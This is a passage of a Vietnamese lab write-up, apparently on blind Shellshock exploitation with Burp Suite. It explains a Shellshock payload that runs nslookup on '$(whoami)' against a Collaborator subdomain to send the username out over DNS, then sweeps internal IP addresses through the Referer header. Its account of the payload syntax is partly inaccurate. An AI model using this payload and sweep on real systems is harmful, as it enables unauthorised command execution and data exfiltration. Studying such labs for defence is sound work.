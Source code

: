 - Phần <b>() { :; };</b> này là payload của lỗ hổng "Shellshock" hay "Bash Bug". Đây là một hàm không hợp lệ trong Bash, nhưng sẽ được Bash chấp nhận nếu không có ký tự kết thúc hợp lệ như }. Trong trường hợp này, nó được sử dụng để khai báo một hàm trống tên là ().

- /usr/bin/nslookup: Là một tiện ích trong Unix/Linux dùng để thực hiện truy vấn DNS.

- $(whoami).SUBDOMAIN_OF_COLLABORATOR: Là một cách để lấy tên người dùng hiện tại đang đăng nhập vào hệ thống được nối với subdomain của COLLABORATOR

![](image-18.png)

2. Tại trường <b>Referer</b>: chính là ip internal của app

>http://192.168.0.§X§:8080

Set cho x chạy từ 0->255, sau đó nhấn attack

![](image-19.png)
